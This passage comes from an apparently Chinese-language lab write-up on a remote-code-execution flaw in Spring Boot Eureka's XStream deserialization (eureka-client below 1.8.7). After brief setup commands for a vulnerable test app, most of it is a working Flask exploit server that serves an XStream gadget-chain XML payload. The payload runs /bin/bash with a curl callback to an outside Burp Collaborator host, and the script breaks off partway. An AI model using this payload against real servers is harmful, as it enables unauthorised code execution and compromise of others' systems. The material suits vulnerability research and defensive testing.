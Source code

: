 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210620111847-3a428c44-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620111847-3a428c44-d176-1.png)

* * *

#### **2.eureka xstream deserialization RCE**

```
cd springboot-eureka-xstream-rce
mvn spring-boot:run
```

> 影响版本: eureka-client < 1.8.7
> 
> 目前最新版:3.03

**(1)编写利用脚本**

#!/usr/bin/env python
\# coding: utf-8

from flask import Flask, Response

app = Flask(\_\_name\_\_)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=\['GET', 'POST'\])
def catch_all(path):
  command = "curl i5o45whthqsvd5uhahnx5p0z9qfh36.burpcollaborator.net"
  xml = """<linked-hash-set>
 <jdk.nashorn.internal.objects.NativeString>
 <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
 <dataHandler>
 <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
 <is class="javax.crypto.CipherInputStream">
 <cipher class="javax.crypto.NullCipher">
 <serviceIterator class="javax.imageio.spi.FilterIterator">
 <iter class="javax.imageio.spi.FilterIterator">
 <iter class="java.util.Collections$EmptyIterator"/>
 <next class="java.lang.ProcessBuilder">
 <command>
 <string>/bin/bash</string>
 <string>-c</string>
 <string>{command}</string>
 </command>
 <redirectErrorStream>false</redirectErrorStream>
 </next>
 </iter>
 <filter class="javax.imageio.ImageIO$ContainsFilter">
 <method>
 <class>java.lang.ProcessBuilder</class>
 <name>start</name>
 <parameter-types/>
 </method>
 <name>foo</name>
 </filter>
 <next class="string">foo</next>
 </serviceIterator>
 <lock/>
 </cipher>
 <input class="java.lang.ProcessBuilder$NullInputStream"/>
 <ibuffer></ibuffer>
 </is>
 </dataSource>
 </dataHandler>
 </value>
 </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>""".format(command=command)